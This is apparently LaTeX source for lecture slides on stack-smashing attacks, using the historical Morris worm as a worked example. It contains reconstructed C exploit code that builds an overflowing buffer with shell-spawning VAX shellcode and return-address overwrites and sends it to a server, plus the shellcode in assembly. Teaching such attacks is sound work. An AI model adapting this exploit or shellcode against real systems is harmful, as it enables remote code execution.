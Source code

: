 \begin{frame}[fragile,label=morrisEx]{actual example: Morris worm}
\begin{lstlisting}[language=C,style=smaller]
    /* reconstructed from machine code */
    for(i = 0; i < 536; i++) buf[i] = '\0';
    for(i = 0; i < 400; i++) buf[i] = 1;
    /* actual shellcode */
    memcpy(buf + i,
        ("\335\217/sh\0\335\217/bin\320\032\335\0"
         "\335\0\335Z\335\003\320\034\\274;\344"
         "\371\344\342\241\256\343\350\357"
         "\256\362\351"),
         28);
    /* frame pointer, return val, etc.: */
    *(int*)(&buf[556]) = 0x7fffe9fc;			
    *(int*)(&buf[560]) = 0x7fffe8a8;
    *(int*)(&buf[564]) = 0x7fffe8bc;
    ...
    send(to_server, buf, sizeof(buf))
    send(to_server, "\n", 1);
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=morrisShell]{Morris shellcode (VAX)}
\begin{lstlisting}[language=myasm,morekeywords=chmk]
pushl   $68732f      // "/sh\0"
pushl   $6e69622f    // "/bin"
movl    sp, r10
pushl   $0
pushl   $0
pushl   r10
pushl   $3
movl    sp,ap
chmk    $3b
\end{lstlisting}
\begin{itemize}
\item setup: run command prompt (``shell'')
\item after overflow: send commands to run
\end{itemize}
\end{frame}

\begin{frame}{stack smashing summary}
    \begin{itemize}
    \item setup:
        \begin{itemize}
        \item buffer on the stack
        \item attacker controls what gets written 
        \end{itemize}
    \item overwrite  with address of (part of) buffer
    \item execution goes to attacker machine code when function returns
    \end{itemize}

\end{frame}



